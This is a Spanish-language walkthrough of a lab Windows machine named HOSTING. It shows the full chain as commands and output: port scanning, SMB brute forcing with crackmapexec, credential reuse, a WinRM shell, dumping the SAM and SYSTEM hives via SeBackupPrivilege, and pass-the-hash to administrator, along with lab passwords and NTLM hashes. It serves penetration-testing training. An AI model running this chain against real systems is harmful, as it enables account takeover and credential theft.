



# Reconocimiento

Realizo un reconocimiento activo inicial ante el objetivo.

Comando:

```bash
sudo nmap -Pn -sS -sV -sC -T4 -p- -v -O -v 192.168.56.8 -oN TCP_SCAN_192.168.56.8.txt
```

Resultado:

```
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 128
5040/tcp  open  unknown       syn-ack ttl 128
5985/tcp  open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 128 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 08:00:27:37:60:12 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 22H2
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=9/1%OT=80%CT=1%CU=38602%PV=Y%DS=1%DC=D%G=Y%M=080027%TM
OS:=6A96F8F4%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=I%CI=I%II=I%
OS:SS=S%TS=U)OPS(O1=M5B4NW8NNS%O2=M5B4NW8NNS%O3=M5B4NW8%O4=M5B4NW8NNS%O5=M5
OS:B4NW8NNS%O6=M5B4NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
OS:ECN(R=Y%DF=Y%T=80%W=FFFF%O=M5B4NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=
OS:80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=
OS:A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=
OS:Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%
OS:T=80%CD=Z)

Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: HOSTING, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:37:60:12 (Oracle VirtualBox virtual NIC)
| Names:
|   HOSTING<00>          Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   HOSTING<20>          Flags: <unique><active>
| Statistics:
|   08 00 27 37 60 12 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7987/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52450/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 35718/udp): CLEAN (Timeout)
|   Check 4 (port 41987/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s
| smb2-time: 
|   date: 2026-09-01T16:10:13
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 12:10:28 2026 -- 1 IP address (1 host up) scanned in 846.30 seconds
```

Conclusión:

| Puerto      | Servicio           | Versión                       | Información relevante                                                                                                        |
| ----------- | ------------------ | ----------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| 80          | HTTP               | Microsoft IIS 10.0            | Título "IIS Windows"; métodos soportados OPTIONS/TRACE/GET/HEAD/POST; **TRACE marcado como potencialmente arriesgado**       |
| 135         | MSRPC              | Microsoft Windows RPC         | Estándar en Windows, útil para enumeración con `rpcclient`/`impacket`                                                        |
| 139         | NetBIOS-SSN        | Microsoft Windows netbios-ssn | Confirma hostname vía NetBIOS: **HOSTING**                                                                                   |
| 445         | Microsoft-DS (SMB) | Sin banner específico         | **Message signing enabled but not required** hallazgo de hardening (vector de SMB relay); pendiente enumerar shares/usuarios |
| 5040        | Desconocido        | —                             | Puerto no estándar, pendiente investigar directamente (posible servicio Windows interno, ej. "Connected Devices Platform")   |
| 5985        | HTTP (WinRM)       | Microsoft HTTPAPI 2.0         | **WinRM activo**. vector clave si se consiguen credenciales válidas (acceso remoto vía `evil-winrm`)                         |
| 47001       | HTTP               | Microsoft HTTPAPI 2.0         | Título "Not Found"; puerto WinRM alternativo, poco relevante por sí solo                                                     |
| 49664–49670 | MSRPC              | Microsoft Windows RPC         | Rango de puertos RPC dinámicos estándar de Windows, sin interés directo                                                      |
- OS: **Windows 10** (build 1709–22H2, según fingerprint TCP/IP)
- Hostname NetBIOS: **HOSTING**
- Workgroup: **WORKGROUP** (no forma parte de un dominio AD)
- Clock skew: 0s (reloj sincronizado con mi máquina atacante)

# Enumeración

## Puerto 139/445/tcp - SMB

Enumeración de shares con sesión nula.

Comando:

```bash
smbclient -L //192.168.56.8/ -N
```

Resultado:

```
session setup failed: NT_STATUS_ACCESS_DENIED
```

Conclusión:

`NT_STATUS_ACCESS_DENIED` indica que **la sesión nula (anónima) está deshabilitada** en esta máquina. A diferencia de FALL, aquí Windows está bien configurado en ese aspecto y no permite listar shares sin autenticación.

Enumeración completa (usuarios, política de contraseñas, shares, grupos)

Comando:

```bash
enum4linux -a 192.168.56.8 | sed -r "s/\x1B\[[0-9;]*[a-zA-Z]//g" | tee enum4linux_192.168.56.8.txt
```

Resultado:


```
 =========================================( Target Information )=========================================

Target ........... 192.168.56.8
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 192.168.56.8 )============================


[+] Got domain/workgroup name: WORKGROUP


 ================================( Nbtstat Information for 192.168.56.8 )================================

Looking up status of 192.168.56.8
        HOSTING         <20> -         B <ACTIVE>  File Server Service
        HOSTING         <00> -         B <ACTIVE>  Workstation Service
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name

        MAC Address = 08-00-27-37-60-12

 ===================================( Session Check on 192.168.56.8 )===================================


[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.

```

Conclusión:

- **Workgroup confirmado:** `WORKGROUP`: no es un dominio Active Directory, es un grupo de trabajo local, confirmando que es una máquina Windows standalone.
- **Hostname confirmado vía NetBIOS:** `HOSTING` (coincide con lo ya visto en el nmap).
- **Sesión nula rechazada explícitamente:** `Server doesn't allow session using username '', password ''`

**Conclusión:** SMB está bien configurado en cuanto a acceso anónimo. No hay más información que sacar por esta vía sin credenciales. Correctamente securizado.

Escaneo de vulnerabilidades SMB.

Comando:

```bash
nmap --script smb-vuln* -p445 192.168.56.8
```

Conclusión:

Ninguno de los dos scripts encontró vulnerabilidad. El primero (`ms10-061`) ni siquiera pudo completar la negociación de conexión (probablemente por la misma razón de que rechaza sesión nula/anónima), y el segundo (`ms10-054`) confirma explícitamente que no es vulnerable.

## Puerto 80 - IIS

Cabeceras y confirmación de tecnología.

Comando:

```bash
curl -s http://192.168.56.8/ -I
```

Resultado:

```bash
HTTP/1.1 200 OK
Content-Length: 696
Content-Type: text/html
Last-Modified: Wed, 03 Jul 2024 19:45:47 GMT
Accept-Ranges: bytes
ETag: "29d8ed9981cdda1:0"
Server: Microsoft-IIS/10.0
Date: Wed, 02 Sep 2026 16:19:59 GMT
```

Fuzzing de directorios.

Comando:

```bash
gobuster dir -u http://192.168.56.8/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,txt,html,config -t 50 -o gobuster_hosting.txt
```

Resultado:

```
speed                (Status: 301) [Size: 160] [--> http://192.168.56.8/speed/]
Speed                (Status: 301) [Size: 160] [--> http://192.168.56.8/Speed/]
Progress: 1323348 / 1323348 (100.00%)
```

Reviso el contenido de http://192.168.56.8/speed/.




Es una web en la que anuncian un servicio de hosting. Lo más relevante que saco a primera vista es una posible enumeración de usuarios, ya que en el apartado "Our Team" salen tanto los trabajadores como el CEO y sus correos corporativos.

## Findings

### Posible enumeración de usuarios en la web de hosting:

- p.smith
- a.krist
- m.faeny
- k.lendy

# Explotación

## Fuerza bruta smb usando diccionario custom de usuarios

Utilizando los usuarios encontrados en la enumeración, realizo un ataque de fuerza bruta sobre el servicio smb.

Diccionario:

- p.smith
- a.krist
- m.faeny
- k.lendy

Comando:

```bash
crackmapexec smb 192.168.56.8 -u usuarios_hosting.txt -p /usr/share/wordlists/rockyou.txt --continue-on-success 2>/dev/null | grep '\[+\]'
```

Resultado:

```
SMB                      192.168.56.8    445    HOSTING          [+] HOSTING\p.smith:kissme
```

Conclusión:

Hemos obtenido la contraseña del usuario p.smith.

Usuario: p.smith
Contraseña: kissme

---

Durante el ataque de fuerza bruta contra las cuentas identificadas en la web, se consiguió una credencial válida: `p.smith:kissme`. Sin embargo, la herramienta utilizada (`crackmapexec`, con la opción `--continue-on-success`) no se detuvo al encontrar la contraseña correcta, sino que continuó probando el resto del diccionario contra esa misma cuenta. Esto generó intentos fallidos adicionales que activaron la política de bloqueo de cuentas de Windows, dejando `p.smith` inutilizable durante el tiempo de bloqueo. Al agotarse la espera sin que la cuenta se desbloqueara, se optó por reiniciar el laboratorio (reimportando la máquina desde cero) para continuar con la credencial ya confirmada, sin repetir el proceso completo.

**Lección aprendida:** al automatizar fuerza bruta contra sistemas con política de bloqueo activa, conviene detener el proceso en cuanto se obtiene una credencial válida (omitiendo `--continue-on-success`), en vez de dejar que siga probando el resto del diccionario contra la misma cuenta.

Este incidente ilustra además un riesgo inherente a la fuerza bruta como técnica: incluso con ajustes cuidadosos, sigue implicando un número elevado de intentos de autenticación con consecuencias difíciles de controlar por completo (bloqueos, alertas, saturación del servicio). En un entorno real, esto la convierte en una opción poco discreta y arriesgada.

---

Ahora que ya tenemos una cuenta con credenciales podemos empezar a enumerar mejor el sistema. Recordemos que esta máquina tiene activo el servicio WinRM en el puerto 5985, por lo tanto el primer vector es encontrar un usuario que pertenezca al grupo "Remote Management Users" para poder tener acceso remoto.

Comprobamos si el usuario p.smith tiene acceso a WInRM.

Comando:

```bash
crackmapexec winrm 192.168.56.9 -u p.smith -p 'kissme' 
```

Resultado:

```
SMB         192.168.56.9    5985   HOSTING          [*] Windows 10 / Server 2019 Build 19041 (name:HOSTING) (domain:HOSTING)
HTTP        192.168.56.9    5985   HOSTING          [*] http://192.168.56.9:5985/wsman
WINRM       192.168.56.9    5985   HOSTING          [-] HOSTING\p.smith:kissme
```

Conclusión:

El usuario p.smith no tiene acceso a WinRM, por lo que no es válido para este vector de entrada.

Enumero el resto de usuarios del sistema para ver si hay alguno que no tenga contemplado.

Comando:

```bash
crackmapexec smb 192.168.56.9 -u p.smith -p 'kissme' --users
```

Resultado:

```
SMB         192.168.56.9    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.56.9    445    HOSTING          [+] HOSTING\p.smith:kissme 
SMB         192.168.56.9    445    HOSTING          [-] Error enumerating domain users using dc ip 192.168.56.9: socket connection error while opening: [Errno 111] Connection refused
SMB         192.168.56.9    445    HOSTING          [*] Trying with SAMRPC protocol
SMB         192.168.56.9    445    HOSTING          [+] Enumerated domain user(s)
SMB         192.168.56.9    445    HOSTING          HOSTING\Administrador                  
SMB         192.168.56.9    445    HOSTING          HOSTING\administrator                  
SMB         192.168.56.9    445    HOSTING          HOSTING\DefaultAccount                 
SMB         192.168.56.9    445    HOSTING          HOSTING\f.miller                       
SMB         192.168.56.9    445    HOSTING          HOSTING\Invitado                       
SMB         192.168.56.9    445    HOSTING          HOSTING\j.wilson                       
SMB         192.168.56.9    445    HOSTING          HOSTING\m.davis                        H0$T1nG123!
SMB         192.168.56.9    445    HOSTING          HOSTING\p.smith                        
SMB         192.168.56.9    445    HOSTING          HOSTING\WDAGUtilityAccount   
```

Conclusión:

Podemos ver usuarios que no teníamos enumerados previamente, por lo que ya tengo un diccionario de usuarios completo. Por otro lado, el usuario m.davis tiene un texto en la descripción el cual puede usarse para probar credenciales, ya que tiene formato de contraseña.

Ejecuto una comprobación de la cadena de texto obtenida en todos los usuarios del sistema.

Comando:


```bash
crackmapexec smb 192.168.56.9 -u usuarios_hosting.txt -p 'H0$T1nG123!' 
```

Resultado:

```
SMB         192.168.56.9    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.56.9    445    HOSTING          [-] HOSTING\p.smith:H0$T1nG123! STATUS_LOGON_FAILURE 
SMB         192.168.56.9    445    HOSTING          [-] HOSTING\a.krist:H0$T1nG123! STATUS_LOGON_FAILURE 
SMB         192.168.56.9    445    HOSTING          [-] HOSTING\m.faeny:H0$T1nG123! STATUS_LOGON_FAILURE 
SMB         192.168.56.9    445    HOSTING          [-] HOSTING\k.lendy:H0$T1nG123! STATUS_LOGON_FAILURE 
SMB         192.168.56.9    445    HOSTING          [-] HOSTING\f.miller:H0$T1nG123! STATUS_LOGON_FAILURE 
SMB         192.168.56.9    445    HOSTING          [+] HOSTING\j.wilson:H0$T1nG123! 
```

Conclusión:

Obtenemos la credencial del usuario j.wilson.

Usuario: j.wilson
Contraseña: H0$T1nG123!

Ahora compruebo si j.wilson tiene acceso a WinRM.

Comando:

```bash
crackmapexec winrm 192.168.56.9 -u j.wilson -p 'H0$T1nG123!'
```

Resultado:

```
SMB         192.168.56.9    5985   HOSTING          [*] Windows 10 / Server 2019 Build 19041 (name:HOSTING) (domain:HOSTING)
HTTP        192.168.56.9    5985   HOSTING          [*] http://192.168.56.9:5985/wsman
WINRM       192.168.56.9    5985   HOSTING          [+] HOSTING\j.wilson:H0$T1nG123! (Pwn3d!)
```

Conclusión:

El usuario j.wilson sí tiene acceso completo vía WinRM.

Ahora, ya con acceso a WinRM puedo obtener una shell.

Comando:

```bash
evil-winrm -i 192.168.56.9 -u j.wilson -p 'H0$T1nG123!'
```

Resultado:



Conclusión:

Tengo posibilidad de ejecutar comandos en la máquina bajo el usuario j.wilson.

# Post-Explotación

Realizo un reconocimiento inicial de la máquina y del usuario.

Comando:

```
whoami
whoami /groups 
whoami /priv
```

Resultado:

```
INFORMACIàN DE GRUPO
--------------------

Nombre de grupo                             Tipo           SID          Atributos
=========================================== ============== ============ ========================================================================
Todos                                       Grupo conocido S-1-1-0      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Operadores de copia de seguridad    Alias          S-1-5-32-551 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                            Alias          S-1-5-32-545 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios de administraci¢n remota   Alias          S-1-5-32-580 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\NETWORK                        Grupo conocido S-1-5-2      Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Usuarios autentificados        Grupo conocido S-1-5-11     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Esta compa¤¡a                  Grupo conocido S-1-5-15     Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Cuenta local                   Grupo conocido S-1-5-113    Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\Autenticaci¢n NTLM             Grupo conocido S-1-5-64-10  Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
Etiqueta obligatoria\Nivel obligatorio alto Etiqueta       S-1-16-12288

INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                         Estado
============================= =================================================== ==========
SeBackupPrivilege             Hacer copias de seguridad de archivos y directorios Habilitada
SeRestorePrivilege            Restaurar archivos y directorios                    Habilitada
SeShutdownPrivilege           Apagar el sistema                                   Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido                    Habilitada
SeUndockPrivilege             Quitar equipo de la estaci¢n de acoplamiento        Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso        Habilitada
SeTimeZonePrivilege           Cambiar la zona horaria                             Habilitada

```

Conclusión:

Se detecta que la cuenta tiene habilitado `SeBackupPrivilege`, un privilegio que permite leer archivos del sistema ignorando las restricciones de permisos habituales. Podríamos usar este permiso para acceder al registro SAM, donde se almacenan los hashes de contraseñas de las cuentas locales del sistema.


Se crea un directorio de trabajo y se vuelcan a disco los hives del registro **SAM** y **SYSTEM**, que contienen los hashes de contraseñas de los usuarios locales y la clave para descifrarlos.

Comando:

```
mkdir C:\windows\temp\work
cd C:\windows\temp\work
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```

Con los hives volcados, descargo a mi máquina atacante los archivos.

Comando:

```
download sam.hive
download system.hive
```

Con ambos ficheros en mi máquina, extraigo los hashes NTLM offline con impacket.

Comando:

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Resultado:

```
[*] Target system bootKey: 0x827cc782adafc2fd1b7b7a48da1e20ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8afe1e889d0977f8571b3dc0524648aa:::
administrator:1002:aad3b435b51404eeaad3b435b51404ee:41186fb28e283ff758bb3dbeb6fb4a5c:::
p.smith:1003:aad3b435b51404eeaad3b435b51404ee:2cf4020e126a3314482e5e87a3f39508:::
f.miller:1004:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
m.davis:1005:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
j.wilson:1006:aad3b435b51404eeaad3b435b51404ee:a6cf5ad66b08624854e80a8786ad6bac:::
[*] Cleaning up... 
```

Conclusión:

Tenemos los hashes de todas las cuentas, incluido el hash del usuario administrator.

Antes de intentar nada, confirmo que el usuario administrator efectivamente tiene privilegios de administrador.

Comando:

```bash
crackmapexec smb 192.168.56.9 -u administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'
```

Resultado:

```
SMB         192.168.56.9    445    HOSTING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:HOSTING) (domain:HOSTING) (signing:False) (SMBv1:False)
SMB         192.168.56.9    445    HOSTING          [+] HOSTING\administrator:41186fb28e283ff758bb3dbeb6fb4a5c (Pwn3d!)
```

Conclusión:

El usuario tiene privilegios de admin.

Realizo un ataque pass the hash contra el usuario administrator.

Comando:

```bash
evil-winrm -i 192.168.56.9 -u administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'
```

Resultado:



Conclusión:

Tengo acceso a la máquina como administrador.